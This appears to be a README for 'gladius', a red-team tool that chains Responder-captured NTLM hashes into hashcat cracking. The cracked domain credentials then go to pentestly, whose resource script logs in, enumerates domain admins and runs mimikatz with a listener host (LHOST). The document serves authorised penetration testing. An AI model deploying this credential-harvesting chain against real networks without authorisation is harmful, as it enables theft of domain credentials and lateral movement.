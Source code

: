## Responder to Credentials

### Install
```
pip install watchdog
git clone https://git.praetorianlabs.com/thebarbershopper/gladius
```

### Configuration
First things first, have to set our configuration:
```
[Responder]
hashcat = /root/tools/hashcat/hashcat-cli64.bin # Path to hashcat binary
wordlist = /root/tools/hashcat/rockyou.txt # Path to wordlist for hashcat
ruleset = /root/tools/hob064.rule # Path to ruleset for hashcat 
log_path = /opt/responder/logs # Path to monitor for new Responder hashes

[Creds]
outfile_path = /root/creds # File to write cracked credentials
```

### Start
After setting up configuration, simple start.
```
python2 start.py
```

```
[root@Praetorian-IPTD-4 auto-pentest]# python2 start.py --help
usage: start.py [-h] [-v]

optional arguments:
  -h, --help     show this help message and exit
  -v, --verbose  Increased output verbosity
```

### Start Responder and watch cracked credentials fly by..

### Output

![exmaple.png](example.png)

### Example module

```
class CredsHandler(GladiusHandler):

    patterns = ['*']

    def process(self, event):
        with open(event.src_path, 'r') as f:
            data = f.read().split('\n')

        # Perform work on data
```


Add yourself to the handlers list
```
handlers = [(ResponderHandler, config.get('Responder', 'watch_path')),
            (CredsHandler, ResponderHandler().outpath),
            (PentestlyHandler, CredsHandler().outpath)]
```

### Workings

#### Responder

Watches responder log for `*NTLM*txt` files. For each file found, parses output, creates a temp file containing the new hashes, and passes this to hashcat with the correct hash type

#### Credentials

Watches for output from `hashcat` and exports files with the following format:

```
Domain Username Password
```

#### Pentestly

Watches for sanitized hashcat output and passes credentials to `pentestly` via the following resource script.

```
workspaces add gladius
load nmap
set filename /tmp/gladius.xml
run

load login
set domain DOMAIN
set username USERNAME
set password PASSWORD
run

load get_domain_admin_names
run

load mimikatz
set lhost LHOST
run

load reporting/csv
set filename OUTFILE
set table pentestly_creds
run
```

#### Admin

Watches for output from Pentestly and parses the found credentials for `Local Admin` and new credentials from `Mimikatz`
